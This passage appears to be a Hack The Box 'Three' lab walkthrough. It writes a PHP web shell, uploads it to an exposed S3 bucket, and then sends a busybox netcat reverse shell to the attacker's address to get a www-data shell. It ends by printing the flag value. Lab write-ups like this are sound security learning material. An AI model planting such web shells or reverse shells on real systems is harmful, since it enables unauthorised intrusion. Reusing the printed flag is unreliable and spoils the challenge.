 ### Scripting (PHP)

Let’s write a simple php shell command. Here, we will be able to obtain the command line using the “**system()**” function by using the operating system function :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 1/Three]
└─$ nano script.php           

┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 1/Three]
└─$ cat script.php 
<?php system($_GET["cmd"]); ?>
```

Now we copy that on the target machine with the following command :

```bash                               
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 1/Three]
└─$ aws --endpoint=http://s3.thetoppers.htb s3 cp script.php s3://thetoppers.htb 
upload: ./script.php to s3://thetoppers.htb/script.php            
```
### Foothold

Now going on the URL we have command injection :

![Pasted image 20250731212905.png](../../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250731212905.png)

We can copy a [Reverse Shell](../../../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) from https://www.revshells.com/ :

```
 busybox nc 10.10.14.231 1337 -e sh
```

We open the listener on the same port with [Netcat](../../../../3%20-%20Tags/Hacking%20Tools/Netcat.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 1/Three]
└─$ nc -lvnp 1337  
listening on [any] 1337 ...
```

And we paste the shell in the cmd parameter :

```nash
 http://thetoppers.htb/script.php?cmd=busybox%20nc%2010.10.14.231%201337%20-e%20sh
```

We check the listener and retrieve the flag :

```
listening on [any] 1337 ...
connect to [10.10.14.231] from (UNKNOWN) [10.129.227.248] 39036
whoami
www-data

cd ..

cat flag.txt
a980d99281a28d638ac68b9bf9453c2b
```

Pwned !!
